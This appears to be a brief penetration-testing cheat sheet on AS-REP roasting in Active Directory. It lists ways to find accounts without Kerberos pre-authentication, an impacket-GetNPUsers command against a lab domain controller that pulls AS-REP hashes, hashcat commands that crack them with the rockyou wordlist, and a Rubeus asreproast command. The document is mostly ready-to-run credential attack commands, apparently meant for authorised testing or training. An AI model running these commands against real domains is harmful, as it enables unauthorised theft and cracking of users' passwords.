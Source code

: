 #activedirectory #cracking #password 

🔴 To check the users who are vulnerable use below
1. Powerview Get-DomainUser function with the option -PreauthNotRequired
2. impacket-GetNPUsers as shown below without the -request and -outputfile options.
#### IMPACKET

```bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

Cracking  the Hash

```bash
hashcat --help | grep -i "Kerberos"
```

```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Rubeus

```cmd
.\Rubeus.exe asreproast /nowrap
```

